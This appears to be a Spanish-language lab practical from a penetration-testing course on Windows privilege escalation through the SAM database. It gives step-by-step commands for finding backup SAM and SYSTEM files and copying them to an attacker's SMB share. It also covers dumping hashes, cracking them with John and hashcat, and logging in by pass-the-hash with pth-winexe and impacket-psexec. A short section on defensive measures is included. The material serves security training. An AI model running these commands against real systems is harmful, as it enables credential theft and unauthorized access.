> [[02 - MODULOS/05 - Prácticas (PoCs)|← Volver a Prácticas (PoCs)]] | [[02 - MODULOS/Prácticas (PoCs)/Escalada de Privilegios en Windows/00 - Índice del Módulo Escalada de Privilegios en Windows|Índice del Módulo]]

---
# SAM (Security Account Manager) y Hashdump

# 🔐 Contraseñas en el SAM (Security Account Manager)

 
 

## 📖 ENUNCIADO (DESCRIPCIÓN)

 

### 🔐 Escalado de Privilegios con Contraseñas

 

El escalado de privilegios mediante contraseñas es una técnica en la cual un atacante intenta obtener privilegios más altos en un sistema comprometido al obtener o crackear contraseñas de usuarios con privilegios inferiores. Esto les permite acceder a recursos restringidos y realizar acciones que normalmente no estarían permitidas.

 

### 🎯 Métodos de Obtención de Contraseñas

 

Algunos métodos para elevar privilegios a través de contraseñas son:

 

> [!warning]
> 
 
> #### ⚠️ Técnicas de Ataque con Contraseñas:
> 

> 

> 
> * 
> **Uso de contraseñas débiles o predecibles:** Los atacantes pueden intentar adivinar contraseñas débiles o predecibles que hayan sido configuradas por los usuarios o que estén presentes en listas comunes de contraseñas utilizadas. Esto se conoce como "ataque de fuerza bruta" o "ataque de diccionario". Los atacantes prueban múltiples combinaciones de contraseñas hasta encontrar una que funcione.
> 
 
> * 
> **Ataques de reutilización de contraseñas:** Muchos usuarios tienden a utilizar la misma contraseña para múltiples servicios o cuentas. Si un atacante obtiene acceso a una contraseña de usuario en un servicio o aplicación, puede intentar utilizar esa misma contraseña en otros servicios o en la cuenta de administrador del sistema para lograr un escalado de privilegios.
> 
 
> * 
> **Explotación de vulnerabilidades de hashing o almacenamiento de contraseñas:** Si un sistema almacena contraseñas en un formato inseguro o utiliza algoritmos de hashing débiles, los atacantes pueden intentar extraer las contraseñas directamente del sistema comprometido. Esto puede involucrar el uso de técnicas como ataques de inyección de SQL o aprovechar vulnerabilidades específicas en el sistema o en las aplicaciones que manejan las contraseñas.
> 
 
> * 
> **Uso de técnicas de robo de contraseñas:** Los atacantes también pueden utilizar malware, como keyloggers o spyware, para robar contraseñas mientras los usuarios las ingresan en sus sistemas. Estas técnicas capturan las pulsaciones de teclado o monitorean las actividades del usuario, obteniendo así las contraseñas que luego se utilizan para el escalado de privilegios.
> 

> 

 

### 🛡️ Medidas de Protección

 

Para protegerse contra el escalado de privilegios basado en contraseñas, se recomiendan las siguientes medidas de seguridad:

 

> [!tip]
> 
 
> #### ✅ Buenas Prácticas de Seguridad:
> 
 

> 
> * Utilizar contraseñas seguras y únicas para cada cuenta o servicio. Las contraseñas deben ser lo suficientemente complejas, incluyendo combinaciones de letras, números y caracteres especiales, y no deben ser fáciles de adivinar o encontrar en listas comunes de contraseñas.
> 
> * Implementar autenticación multifactor (MFA) siempre que sea posible. La autenticación multifactor agrega una capa adicional de seguridad al requerir una segunda forma de verificación, como un código generado en una aplicación móvil o un mensaje enviado al teléfono del usuario, además de la contraseña.
> 
> * Mantener los sistemas y aplicaciones actualizados con los últimos parches y actualizaciones de seguridad para mitigar vulnerabilidades conocidas.
> 
> * Utilizar soluciones de seguridad, como antivirus, firewalls y sistemas de detección de intrusos, para detectar y prevenir ataques de robo de contraseñas o malware.
> 
> * Proteger adecuadamente los archivos SAM y SYSTEM del sistema.
> 

> 

 

 
 

## 🔍 Descubriendo el Archivo SAM

 

> [!note]
> 
 
> #### 💡 ¿Qué es el SAM?
> 
 
> El **Security Account Manager (SAM)** es un componente clave del sistema operativo Windows. Es responsable de almacenar y administrar las contraseñas de las cuentas de usuario en entornos Windows. El SAM se encuentra en todos los sistemas operativos Windows NT y posteriores, incluidas las versiones de servidor y cliente.
> 
> 
> **Características del SAM:**
> 

> 
> * Almacena los hashes de contraseñas de usuarios locales
> 
> * Ubicación: `C:\Windows\System32\config\SAM`
> 
> * Archivo bloqueado mientras el sistema está en ejecución
> 
> * Requiere el archivo SYSTEM para descifrar los hashes
> 
> * Windows mantiene copias de respaldo en `C:\Windows\Repair`
> 

> 
 
> **Formatos de hash en SAM:**
> 

> 
> * **LM Hash:** Formato antiguo, débil (máximo 14 caracteres, dividido en dos partes)
> 
> * **NTLM Hash:** Formato moderno, más seguro (MD4 del password Unicode)
> 

> 

 

### 🔎 Paso 1: Búsqueda Manual de Copias del SAM

 


 

```cmd
C:\> dir /s *pass* == *.config
```

 

O mediante:

 


 

```cmd
C:\> findstr /si password *.xml *.ini *.txt
```

 

### 🛠️ Paso 2: Usar WinPEAS

 

Usamos **WinPEAS** para buscar copias del SAM:

 



 

```cmd
C:\> winPEASany.exe quiet cmd searchfast filesinfo
```

 

### 📤 Paso 3: Enviar Resultados a Kali por SMB

 

Si queremos podemos enviarlo directamente a nuestra Kali por SMB:

 


 

```cmd
$ impacket-smbserver info. -smb2support
C:\> winPEASany.exe quiet cmd searchfast filesinfo >> \\10.0.0.5\info\winpeasfilesinfo.txt
```

 

### 📊 Paso 4: Analizar los Resultados

 



 

```bash
$ cat winpeasfilesinfo.txt
```

 

> [!warning]
> 
 
> **⚠️ Copias del SAM Detectadas:**
> 
> En este caso tenemos acceso a una copia del archivo SAM en `C:\Windows\Repair`. Esta es una copia de respaldo que Windows crea automáticamente y que, si no está protegida adecuadamente, puede ser accesible.
> 

 

### 📥 Paso 5: Copiar los Archivos SAM y SYSTEM a Kali

 

Los copiamos a nuestra Kali:

 



 

```cmd
C:\tools> copy C:\Windows\Repair\SAM \\10.0.0.5\info\SAM
C:\tools> copy C:\Windows\Repair\SYSTEM \\10.0.0.5\info\SYSTEM
```

 

> [!tip]
> 
 
> #### 🔑 ¿Por qué necesitamos SYSTEM?
> 
 
> El archivo **SYSTEM** contiene las claves de cifrado necesarias para descifrar los hashes almacenados en el archivo SAM. Sin el archivo SYSTEM, no podemos extraer los hashes correctamente.
> 
> **Archivos necesarios:**
> 

> 
> * `SAM` - Contiene los hashes de las contraseñas cifrados
> 
> * `SYSTEM` - Contiene las claves para descifrar los hashes del SAM
> 

> 

 

 
 

## 🔓 Extracción de Hashes del SAM

 

### 🔧 Método 1: Usar samdump2

 

Una vez en Kali con la herramienta **samdump2** obtenemos los hashes:

 



 

```bash
$ samdump2 SYSTEM SAM
```

 

### 🔧 Método 2: Usar creddump7

 

O con otra herramienta como **creddump7**:

 



 

```bash
$ /usr/share/creddump7/pwdump.py./SYSTEM./SAM
```

 

> [!note]
> 
 
> #### 📋 Formato de la Salida:
> 
 
> El formato de los hashes extraídos es:
> 
> ```
> usuario:RID:hash_LM:hash_NTLM:::
> ```
> 
 
> **Ejemplo:**
> 
> ```
> Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
> ```
> 
 
> **Componentes:**
> 

> 
> * **usuario:** Nombre de la cuenta
> 
> * **RID:** Relative Identifier (500 = Administrator, 501 = Guest, 1000+ = usuarios)
> 
> * **hash_LM:** Hash LM (si está vacío: aad3b435b51404eeaad3b435b51404ee)
> 
> * **hash_NTLM:** Hash NTLM (este es el que usaremos)
> 

> 

 

### 🔍 Método 3: Usar LaZagne (Opcional)

 

En credenciales una opción es descargar el software **LaZagne**:

 

 
* https://github.com/AlessandroZ/LaZagne
 
* https://github.com/AlessandroZ/LaZagne/releases/
 

 

Pasarlo a Windows 10 y enviarnos la salida a Kali para analizarla:

 



 

```cmd
C:\tools> laZagne.exe all
```

 



 

 
 

## 💥 Explotando la Vulnerabilidad - Crackear Hashes

 

### 🔨 Método 1: John the Ripper

 

Guardamos la salida anterior en un archivo txt y usamos **John** para crackear los hashes:

 



 

```bash
$ john --format=NT hashes.txt
$ john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

 

### ⚡ Método 2: Hashcat

 

O mediante **hashcat**:

 



 

```bash
$ hashcat -m 1000 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
```

 

> [!tip]
> 
 
> #### 🔧 Parámetros de Hashcat:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> `-m 1000`
> 
> 
> 
> `-a 0`
> 
> 
> 
> `hashes.txt`
> 
> 
> 
> `rockyou.txt`
> 
> 
> 
> 
> | Parámetro | Descripción |
> | --- | --- |
> | | Modo NTLM hash |
> | | Modo de ataque: diccionario |
> | | Archivo con los hashes a crackear |
> | | Diccionario de contraseñas |
> 
 
> **Otros modos útiles:**
> 

> 
> * `-m 3000` - LM hash
> 
> * `-a 3` - Ataque de fuerza bruta
> 
> * `--show` - Mostrar contraseñas ya crackeadas
> 

> 

 

 
 

## 🚀 Explotando la Vulnerabilidad - Pass the Hash

 

> [!note]
> 
 
> #### 💡 ¿Qué es Pass the Hash?
> 
 
> **Pass the Hash (PtH)** es una técnica que permite autenticarse en sistemas Windows utilizando el hash NTLM de la contraseña **sin necesidad de conocer la contraseña en texto plano**.
> 
> Esto es posible porque muchos protocolos de Windows (SMB, WMI, RDP con configuración especial) aceptan el hash NTLM directamente para autenticación.
> 
> **Ventaja:** No necesitamos crackear el hash, podemos usarlo directamente.
> 

 

Vamos a explotar ahora la vulnerabilidad intentando iniciar sesión con la técnica **Pass the Hash**.

 

### 🔧 Método 1: pth-winexe

 

A continuación, hay distintas alternativas para acceder:

 


 

```bash
$ pth-winexe -U 'USUARIO%HASH:HASH' //10.0.0.200 cmd.exe
```

 

**Ejemplo:**

 



 

```bash
$ pth-winexe -U 'Administrator%aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0' //10.0.0.200 cmd.exe
```

 

### 🔧 Método 2: impacket-psexec

 

Como herramienta alternativa podemos usar **impacket-psexec**:

 



 

```bash
$ impacket-psexec -hashes HASH:HASH adminis@10.0.0.200
```

 

**Ejemplo completo:**

 

```bash
$ impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 Administrator@10.0.0.200
```

 

> [!tip]
> 
 
> #### 🎉 ¡Éxito con Pass the Hash!
> 
 
> Hemos obtenido acceso al sistema usando solo el hash NTLM, sin necesidad de crackear la contraseña.
> 
> **Ventajas de Pass the Hash:**
> 

> 
> * ✅ No requiere crackear contraseñas (ahorra tiempo)
> 
> * ✅ Funciona incluso con contraseñas muy complejas
> 
> * ✅ No alerta sistemas de detección de fuerza bruta
> 
> * ✅ Muy útil en redes corporativas (movimiento lateral)
> 

> 
> **Verificar acceso:**
> 
> ```cmd
> C:\> whoami
> NT AUTHORITY\SYSTEM
> 
C:\> whoami /priv
> ```
> 
 

 

 
 

## 📚 Resumen

 

> [!tip]
> 
 
> ### 🎓 Lo que hemos aprendido:
> 
 

> 
> * ✅ El SAM almacena hashes de contraseñas de usuarios locales
> 
> * ✅ Windows mantiene copias de respaldo en `C:\Windows\Repair`
> 
> * ✅ Necesitamos los archivos SAM y SYSTEM para extraer hashes
> 
> * ✅ Podemos usar samdump2 o creddump7 para extraer hashes
> 
> * ✅ Los hashes pueden crackearse con John the Ripper o Hashcat
> 
> * ✅ Pass the Hash permite autenticarse sin crackear el hash
> 
> * ✅ pth-winexe e impacket-psexec permiten ejecutar Pass the Hash
> 

> 
 
> ### 🔄 Flujo del Ataque:
> 
 

> [!note]
> 
 
> 
 **Encontrar copias SAM/SYSTEM** → 
> **Copiar a Kali** → 
> **Extraer hashes** → 
> **Opción A: Crackear (John/Hashcat)** → 
> **Opción B: Pass the Hash (pth-winexe/psexec)** → 
> **Acceso con privilegios**
> 
> 

> 
 
> ### 🔑 Conceptos Clave:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> **SAM**
> 
> 
> 
> **NTLM Hash**
> 
> 
> 
> **LM Hash**
> 
> 
> 
> **Pass the Hash**
> 
> 
> 
> **samdump2 / creddump7**
> 
> 
> 
> **John / Hashcat**
> 
> 
> 
> 
> | Concepto | Descripción |
> | --- | --- |
> | | Security Account Manager - Base de datos de cuentas locales |
> | | Hash MD4 de la contraseña (formato moderno) |
> | | Hash antiguo y débil (máximo 14 caracteres) |
> | | Autenticación usando el hash sin crackear la contraseña |
> | | Herramientas para extraer hashes del SAM |
> | | Herramientas para crackear hashes de contraseñas |
> 

> 
> ### 📂 Ubicaciones del SAM:
> 
 

> [!note]
> 
 
> ```cmd
> # Ubicación principal (bloqueado en ejecución)
> C:\Windows\System32\config\SAM
> C:\Windows\System32\config\SYSTEM
> 
# Copias de respaldo (accesibles)
> C:\Windows\Repair\SAM
> C:\Windows\Repair\SYSTEM
> 
# Copias de shadow copy (Volume Shadow Copy)
> \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM
> ```
> 
 

> 

> ### 🎯 Navegación:
> 

> ← Práctica 05-03: Contraseñas - Almacenadas en Archivos
> 
→ Práctica 06: Aplicaciones Instaladas
>

---

> [[02 - MODULOS/05 - Prácticas (PoCs)|← Volver a Prácticas (PoCs)]] | [[02 - MODULOS/Prácticas (PoCs)/Escalada de Privilegios en Windows/00 - Índice del Módulo Escalada de Privilegios en Windows|Índice del Módulo]]
